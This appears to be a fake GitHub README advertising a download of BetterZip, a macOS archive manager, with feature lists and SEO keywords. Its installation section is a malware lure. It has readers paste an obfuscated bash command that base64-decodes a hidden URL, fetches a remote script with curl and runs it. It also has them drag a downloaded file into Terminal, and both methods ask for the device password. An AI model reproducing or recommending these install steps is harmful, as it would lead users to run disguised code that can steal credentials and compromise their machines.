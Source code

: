 # BetterZip Mac Download

![BetterZip Screenshot](https://macitbetter.com/img/BetterZip-400.png)

[![Download Now](https://img.shields.io/badge/Download--Now-BetterZip%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/betterzip)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is BetterZip for Mac?

**BetterZip** is a powerful and user-friendly archive manager for **macOS** that goes far beyond the built-in macOS compression tools. Whether you need to open, create, or manage ZIP, RAR, 7-ZIP, TAR, or dozens of other archive formats, BetterZip gives you complete control without unnecessary extractions.

With BetterZip, you can preview archive contents, search within them, and extract only the files you need—saving time and disk space. You can even edit archives directly, adding or removing files without having to unzip and re-zip.

BetterZip also supports password-protected archives and advanced encryption standards, making it perfect for securely sharing files. For professionals handling large or complex file sets, the built-in automation tools and AppleScript support allow for streamlined workflows.

Whether you’re managing personal backups, distributing software, or archiving business data, **BetterZip for Mac** offers speed, security, and convenience in a sleek macOS-native interface.

![BetterZip Screenshot](https://macitbetter.com/img/screenshots/preview.png)

---

## 🌟 Key Features & Benefits

- 📂 **Preview Before Extracting** — View archive contents without full extraction.
- 🔒 **Secure Encryption** — Create and open password-protected archives with AES-256 encryption.
- 🗜 **Wide Format Support** — ZIP, RAR, 7Z, TAR, GZIP, BZIP2, LZIP, ISO, and more.
- ✏️ **Edit Archives Directly** — Add, remove, or rename files inside archives without recompressing.
- 🔍 **Search Inside Archives** — Quickly find files without extracting them first.
- ⚡️ **Fast Compression & Extraction** — Optimized for macOS performance.
- 🤖 **Automation Ready** — Use AppleScript and Automator for batch processing.
- 🌐 **Integration with macOS Finder** — Right-click to quickly compress or extract.

---

## 🖥 System Requirements

- **macOS**: 10.13 High Sierra or later  
- **Processor**: Intel or Apple Silicon (M1/M2/M3)  
- **RAM**: 2 GB minimum  
- **Disk Space**: ~50 MB  
- **License**: Free trial, paid license for full features

---

## 🏷 Keywords

betterzip mac, betterzip, better zip download for mac, betterzip download, betterzip download mac, betterzip mac os, betterzip free
